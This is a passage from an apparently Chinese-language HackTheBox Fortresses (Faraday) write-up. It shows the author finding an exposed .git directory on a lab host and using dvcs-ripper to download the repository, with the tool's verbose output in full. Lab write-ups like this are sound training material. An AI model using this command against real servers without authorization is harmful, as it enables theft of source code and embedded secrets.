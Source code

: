 发现存在 `.git` 目录，尝试使用 [Github - kost/dvcs-ripper](https://github.com/kost/dvcs-ripper) 进行窃取

```shell
┌──(randark ㉿ kali)-[~/tmp/HackTheBox-Fortresses-Faraday]
└─$ ~/tools/dvcs-ripper/rip-git.pl -v -u http://10.13.37.14/.git
[i] Downloading git files from http://10.13.37.14/.git
[i] Auto-detecting 404 as 200 with 3 requests
[i] Getting correct 404 responses
[i] Using session name: KBnsadeH
[d] found COMMIT_EDITMSG
[d] found config
[d] found description
[d] found HEAD
[d] found index
[!] Not found for packed-refs: 404 NOT FOUND
[!] Not found for objects/info/alternates: 404 NOT FOUND
[!] Not found for info/grafts: 404 NOT FOUND
[d] found logs/HEAD
[d] found objects/15/9f5dc55fbb0e096c935e5c12a3e52d3c7107ad
[d] found objects/ee/b5210f419f8b878826cde74c7990bc8b3d857a
[d] found objects/1e/544c6d3204684420c6dcc1b58a2fdc460121a7
[d] found refs/heads/master
[i] Running git fsck to check for missing items
Checking object directories: 100% (256/256), done.
error: 95d0aeb5e804397ded0d09ce4e349660400e6602: invalid sha1 pointer in cache-tree of .git/index
[d] found objects/05/014a26ddf72844fb9101454df62beba6c4a143
[d] found objects/86/61e3e354d62d2443029226e2ff98681ac8d19d
[d] found objects/86/b6845bc342029a92ad908781435f95f000fabb
[d] found objects/09/83980a5f749e5387b36e3e9608939b550f4345
[d] found objects/8a/46eaec1625cdfd4fbe24e14da049e611653e73
[d] found objects/0c/4fe2db50a31437f50daabefb9958d75767d599
[d] found objects/8e/ac957a5120eb7e5a6b1f838cfcac1fbd5653c9
[d] found objects/91/b0fc4c816cd0acedb996444c4d3ec6703e3805
[d] found objects/93/cf73e9c5dc8bf95c8f530db5b8ba841d3d1a4d
[d] found objects/95/d0aeb5e804397ded0d09ce4e349660400e6602
[d] found objects/17/b5bd1c0e032f7244363e29fabba9015691f490
[d] found objects/19/326adeb18b6eb245d0fedad135f0df0476d76b
[d] found objects/1b/393db3e482ab736dd3873389c279195992e32d
[d] found objects/9b/5cfcbc57130ae4b466ae85aa21f98a70d35dee
[d] found objects/25/9a9e2c65738b9d749872c944e423531fd92159
[d] found objects/a6/312f33773595baf1cf4deac1e6100148dd699a
[d] found objects/ab/b70e0fffb6b249ab231cb59aea077f3ff9efbe
[d] found objects/b0/9d9faf678e8c75cb0b2cadcbe494345eafda61
[d] found objects/b8/551f7c0f0060c97ad5e0a348fec522d7e26247
[d] found objects/b9/39eb6f394c22a5df6277b881e7d86fc6975797
[d] found objects/3d/1b7fec1a0474e2d15766a8814e6ac647aa5e7f
[d] found objects/c6/ef392b26a9b29466388c61a4bce975ac12f282
[d] found objects/c9/5b91c11f5deb64d1a062fc3a545a24c64f4276
[d] found objects/50/937333b99a5e168ac9e8292b22edd7e96c3e6a
[d] found objects/52/1afc5be7274b71582d5518445cac3b56704391
[d] found objects/53/08df61af3cc99e54552086213bdf1b8af4af31
[d] found objects/53/4452210e7129a8a33f14a29996c060ab69fad1
[d] found objects/54/d2495018b0d93630a2ce0811fd246fafbcd569
[d] found objects/54/c0fbeed5b4f97ea31ab99b358704e02863a8a0
[d] found objects/5e/23514f33d0a909849dbaf87ece60bb1561ba4e
[d] found objects/60/669b946714ac4c3ce9e117f0e473c12f7ef1f3
[d] found objects/65/33f319a8a39c9164dbcec7fce73b0ac9dc087b
[d] found objects/e5/f6ce91b3818406be808fdd80b86fc7db5c588b
[d] found objects/e5/a242994035de13059fe6f1fe974bf35a2291e1
[d] found objects/70/1f6715c2c754ca5f03d1009a949400354160b2
[d] found objects/f1/e68d3190fb90ef5ae4ba6672efc19186771aca
[d] found objects/75/7dbf30c59149020cdf78577e8a5c08e3c9209d
[d] found objects/78/c533b4e7ecb48d0da3017e1361c05765ff43c9
[d] found objects/79/c82c0fad92c918ae2c41043ab1f671793cd2c2
```